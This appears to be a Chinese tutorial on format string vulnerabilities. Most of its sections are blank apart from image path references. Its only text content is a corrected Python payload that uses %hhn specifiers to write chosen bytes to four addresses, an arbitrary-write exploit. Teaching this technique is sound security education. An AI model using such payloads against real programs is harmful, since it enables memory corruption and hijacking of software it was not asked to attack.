








# 一、格式化字符串漏洞介绍








# 二、格式化字符串漏洞的利用方法

## 任意地址读





## 任意地址写



**上面图片错误了，应该是\x10、\x11、\x12、\x13**

### 最终修正后的 Payload

Python

```
# 修正了地址的 \x00 为 \x10，并递增后续地址
payload = b""
payload += b"\x10\x80\x04\x08"  # 地址1 -> 存 0x40
payload += b"\x11\x80\x04\x08"  # 地址2 -> 存 0x30
payload += b"\x12\x80\x04\x08"  # 地址3 -> 存 0x20
payload += b"\x13\x80\x04\x08"  # 地址4 -> 存 0x10

# 计算逻辑保持不变
payload += b"%48c%7$hhn"
payload += b"%240c%8$hhn"
payload += b"%240c%9$hhn"
payload += b"%240c%10$hhn"
```



# 三、格式化字符串漏洞的防范



